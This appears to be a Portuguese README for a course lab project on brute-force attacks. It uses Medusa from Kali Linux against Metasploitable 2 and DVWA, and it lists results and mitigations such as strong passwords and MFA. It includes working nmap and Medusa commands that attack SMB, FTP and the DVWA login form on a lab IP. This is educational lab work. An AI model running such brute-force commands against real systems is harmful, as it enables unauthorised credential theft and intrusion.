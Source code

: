 # 🔐 Projeto Santander Cibersegurança 2025 - DIO

## 📋 Descrição

Relatório prático sobre testes de ataques de força bruta utilizando a ferramenta **Medusa** em ambiente controlado com **Kali Linux** e **Metasploitable 2**.

## 🎯 Objetivos

- Executar ataques de força bruta em serviços FTP, SMB e aplicação web (DVWA)
- Documentar procedimentos e resultados
- Propor medidas de mitigação contra ataques de força bruta

## 🛠️ Tecnologias Utilizadas

- **Kali Linux** - Máquina atacante
- **Metasploitable 2** - Máquina alvo
- **Medusa** - Ferramenta de brute force
- **DVWA** - Aplicação web vulnerável
- **Samba & VSFTPD** - Serviços de rede

## 📊 Resultados
✅ Credenciais fracas identificadas com sucesso

✅ Serviços vulneráveis expostos

✅ Demonstração da eficácia de ataques de força bruta

✅ Acesso obtido em serviços FTP e SMB

✅ Enumeração de shares Samba bem-sucedida

## 🛡️ Medidas de Mitigação
🔒 Implementar políticas de senha forte

⚠️ Configurar bloqueio de conta após tentativas falhas

🔐 Utilizar autenticação multifator (MFA)

📊 Monitorar logs de acesso

🌐 Restringir acesso por rede (firewall)

## ⚡ Comandos Principais

```bash
# Scan de portas
nmap -sV -p 21,80,139,445 192.168.56.101

# Brute force SMB
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt

# Brute force FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp

# Brute force HTTP (DVWA)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER&password=^PASS&login=Login' -m FAIL:'Login failed'


🔄 Atualizar serviços para versões sem vulnerabilidades

🚫 Desativar serviços desnecessários
